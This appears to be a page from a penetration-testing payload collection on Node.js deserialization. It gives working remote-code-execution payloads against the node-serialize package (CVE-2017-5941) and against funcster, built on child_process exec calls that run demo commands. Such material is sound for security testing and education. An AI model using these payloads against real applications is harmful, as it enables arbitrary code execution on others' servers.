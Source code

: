# Node Deserialization

> Node.js deserialization refers to the process of reconstructing JavaScript objects from a serialized format, such as JSON, BSON, or other formats that represent structured data. In Node.js applications, serialization and deserialization are commonly used for data storage, caching, and inter-process communication.

## Summary

* [Methodology](#methodology)
    * [node-serialize](#node-serialize)
    * [funcster](#funcster)
* [References](#references)

## Methodology

* In Node source code, look for:

    * `node-serialize`
    * `serialize-to-js`
    * `funcster`

### node-serialize

> An issue was discovered in the node-serialize package 0.0.4 for Node.js. Untrusted data passed into the `unserialize()` function can be exploited to achieve arbitrary code execution by passing a JavaScript Object with an Immediately Invoked Function Expression (IIFE).

1. Generate a serialized payload

    ```js
    var y = {
        rce : function(){
            require('child_process').exec('ls /', function(error,
            stdout, stderr) { console.log(stdout) });
        },
    }
    var serialize = require('node-serialize');
    console.log("Serialized: \n" + serialize.serialize(y));
    ```

2. Add bracket `()` to force the execution

    ```js
    {"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ls /', function(error,stdout, stderr) { console.log(stdout) });}()"}
    ```

3. Send the payload

### funcster

```js
{"rce":{"__js_function":"function(){CMD=\"cmd /c calc\";const process = this.constructor.constructor('return this.process')();process.mainModule.require('child_process').exec(CMD,function(error,stdout,stderr){console.log(stdout)});}()"}}
```

## References

* [CVE-2017-5941 - National Vulnerability Database - February 9, 2017](https://nvd.nist.gov/vuln/detail/CVE-2017-5941)
* [Exploiting Node.js deserialization bug for Remote Code Execution (CVE-2017-5941) - Ajin Abraham - October 31, 2018](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)
* [NodeJS Deserialization - gonczor - January 8, 2020](https://blacksheephacks.pl/nodejs-deserialization/)
